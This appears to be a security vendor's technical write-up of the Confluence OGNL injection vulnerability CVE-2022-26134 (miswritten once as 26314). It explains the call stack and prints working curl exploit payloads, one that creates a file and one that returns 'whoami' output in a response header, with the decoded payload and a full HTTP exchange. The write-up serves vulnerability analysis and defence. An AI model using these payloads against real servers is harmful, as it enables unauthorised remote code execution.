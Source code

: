 # How does it work?

![**[Figure 1](https://twitter.com/ptswarm/status/1533805332409069568) - how the vulnerability works under the hood**](CVE-2022-26134%20vulnerability%20Same,%20but%20different,%20%205b01c0065b3940e19680b3c3e75656f6/Untitled.png)

**[Figure 1](https://twitter.com/ptswarm/status/1533805332409069568) - how the vulnerability works under the hood**

As we can see from the good explanation of PTswarm team, CVE-2022-26314 is an unauthenticated and remote OGNL injection vulnerability resulting in code execution in the context of the Confluence server (typically the `confluence` user on Linux installations). Given the nature of the vulnerability, [internet-facing](https://www.shodan.io/search?query=X-Confluence-Request-Time) Confluence servers are at very high risk.

The call stack demonstrates the OGNL injection starting from `HttpServlet.service` to `OgnlValueStack.findValue`and beyond. As stated, OGNL injection vulnerability affecting the HTTP server. The OGNL payload is placed in the URI of an HTTP request. Any type of HTTP method appears to work, whether valid (GET, POST, PUT, etc) or invalid (e.g. “BALH”). Even though `setCookie`parameter is more convenient stable for exploitation, In its simplest form,  abusing the vulnerability looks like this:

```bash
curl -v http://CONFLUENCESERVER:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/PicusTeam%22%29%7D/
```

As you can see the payload is URL-encoded. The exploit encompasses everything from the start of the content location to the last instance of `/`. Decoded it looks like this:

```java
${@java.lang.Runtime@getRuntime().exec("touch /tmp/PicusTeam")}

```

> “*Scanning for vulnerable servers is easy because exploitation allows attackers to force the server to send command output in the HTTP response. For example, the following request will return the response of `whoami` in the attacker-created `X-Cmd-Response` HTTP field (credit to Rapid7’s Brandon Turner for the exploit below). Note the `X-Cmd-Response: confluence` line in the HTTP response*:
> 

```bash
curl -v http://10.0.0.28:8090/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
*   Trying 10.0.0.28:8090...
* TCP_NODELAY set
* Connected to 10.0.0.28 (10.0.0.28) port 8090 (#0)
> GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
> Host: 10.0.0.28:8090
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 
< Cache-Control: no-store
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< X-Confluence-Request-Time: 1654212503090
< Set-Cookie: JSESSIONID=34154443DC363351DD0FE3D1EC3BEE01; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< X-Cmd-Response: confluence 
```
